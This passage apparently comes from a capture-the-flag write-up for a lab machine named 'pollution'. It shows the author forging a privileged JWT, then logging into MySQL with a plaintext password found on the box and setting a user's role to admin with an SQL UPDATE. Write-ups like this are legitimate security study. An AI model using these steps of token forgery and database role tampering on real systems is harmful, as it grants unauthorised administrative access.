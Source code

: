 Crafted a privileged JWT with [jwt.io](https://jwt.io/).

<img src="/assets/img/pollution/image 38.png" alt="image 38.png" style="width:800px;">

Still not work. It is also validating the user’s role from the database, so let’s change that.

```sql
mysql -u webapp_user -p'Str0ngP4ssw0rdB*12@1' -h localhost

use pollution_api;
show tables;
select * from users;
update users set role = 'admin' where username = 'dusk';
```

<img src="/assets/img/pollution/image 39.png" alt="image 39.png" style="width:800px;">
